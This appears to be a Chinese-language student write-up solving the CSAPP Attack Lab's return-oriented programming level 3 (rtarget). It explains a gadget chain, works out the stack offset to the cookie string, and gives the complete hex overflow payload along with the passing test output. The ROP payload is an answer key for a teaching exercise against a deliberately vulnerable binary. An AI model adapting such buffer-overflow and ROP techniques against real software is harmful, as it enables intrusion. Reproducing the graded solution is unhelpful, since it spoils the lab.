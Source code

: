 上述实现`%rdi +%rsi =%rax`

在后面的代码中的具体操作就是

* 把`%rsp`里的栈指针放到`%rdi`里面
* 拿到`bias`的值，放进`%rsi`里面
* 利用 `add_xy`，把栈指针地址和`bias`加起来放到`%rax`，在传到`%rdi`里面
* 在调用`touch3`首地址

```assembly
movq %rsp, %rax # 把%rsp里的栈指针放到%rax 48 89 e0
movq %rax, %rdi # 把%rsp 放到 %rdi 48 89 c7

popq %rax # 58
0x48 # 对应字符串首地址与%rsp的偏移地址 bias
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
lea    (%rdi,%rsi,1),%rax
movq %rax, %rdi
touch3 #地址
35 39 62 39 39 37 66 61 00 #字符串首地址
```

关于为什么所计算的`bias`是`0x48`，是在其`getbuf`返回地址之后，是执行第一句`movq %rsp, %rax`时，由于每一个`gadget`后面会跟着`retq`指令的，所以在执行第一句时，`%rsp`已经是指向下一句了，即是在执行第一句`movq %rsp, %rax`赋值给`rax`的值即是从第二句开始的，所以是按照第二句`movq %rax, %rdi`的地址进行偏移的，偏移到`0x48`到`cookie`字符串的位置

开始构建我们的答案

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 填补40字节缓冲区，getbuf的栈顶

06 1a 40 00 00 00 00 00 # <-- rsp
a2 19 40 00 00 00 00 00 # <-- rsp +0x00
cc 19 40 00 00 00 00 00 # <-- rsp +0x08
48 00 00 00 00 00 00 00 # <-- rsp +0x10

dd 19 40 00 00 00 00 00 # <-- rsp +0x18
70 1a 40 00 00 00 00 00 # <-- rsp +0x20
13 1a 40 00 00 00 00 00 # <-- rsp +0x28
d6 19 40 00 00 00 00 00 # <-- rsp +0x30
a2 19 40 00 00 00 00 00 # 以上就是将cookie字符串的地址，给到%rdi <-- rsp +0x38

fa 18 40 00 00 00 00 00 # touch3 的首地址 <-- rsp +0x40
35 39 62 39 39 37 66 61 00 # 存放cookie 字符串 <-- rsp +0x48
```

测试PASS！！！

```assembly
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./rtarget < ans5_raw.txt -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```